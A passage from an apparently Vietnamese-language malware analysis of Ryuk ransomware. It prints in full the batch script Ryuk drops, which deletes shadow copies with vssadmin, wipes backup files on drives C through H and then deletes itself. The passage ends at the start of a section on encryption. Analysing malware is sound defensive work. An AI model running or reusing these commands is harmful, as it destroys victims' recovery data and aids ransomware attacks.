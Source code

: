 ### Deleting Backups: "Đốt Cầu Để Rút Lui"

Ryuk thả một batch script tại `C:\Users\Public\window.bat` để xóa tất cả shadow copies và backup có thể, sau đó script tự xóa chính nó:

![alt text](/assets/img/2024/10/delback.png)


Cụ thể các lệnh là:

```batch
vssadmin Delete Shadows /all /quiet
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=401MB
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=unbounded
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=401MB
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=unbounded
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=401MB
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=unbounded
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=401MB
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=unbounded
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=401MB
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=unbounded
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=401MB
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=unbounded
vssadmin Delete Shadows /all /quiet
del /s /f /q c:\*.VHD c:\*.bac c:\*.bak c:\*.wbcat c:\*.bkf c:\Backup*.* c:\backup*.* c:\*.set c:\*.win c:\*.dsk
del /s /f /q d:\*.VHD d:\*.bac d:\*.bak d:\*.wbcat d:\*.bkf d:\Backup*.* d:\backup*.* d:\*.set d:\*.win d:\*.dsk
del /s /f /q e:\*.VHD e:\*.bac e:\*.bak e:\*.wbcat e:\*.bkf e:\Backup*.* e:\backup*.* e:\*.set e:\*.win e:\*.dsk
del /s /f /q f:\*.VHD f:\*.bac f:\*.bak f:\*.wbcat f:\*.bkf f:\Backup*.* f:\backup*.* f:\*.set f:\*.win f:\*.dsk
del /s /f /q g:\*.VHD g:\*.bac g:\*.bak g:\*.wbcat g:\*.bkf g:\Backup*.* g:\backup*.* g:\*.set g:\*.win g:\*.dsk
del /s /f /q h:\*.VHD h:\*.bac h:\*.bak h:\*.wbcat h:\*.bkf h:\Backup*.* h:\backup*.* h:\*.set h:\*.win h:\*.dsk
del %0
```


## The Encryption Process: Khi Tốc Độ Là Vua

Ryuk sử dụng approach multi-threading cho quá trình mã hóa - tạo thread mới cho mỗi file, làm cho nó cực kỳ nhanh.
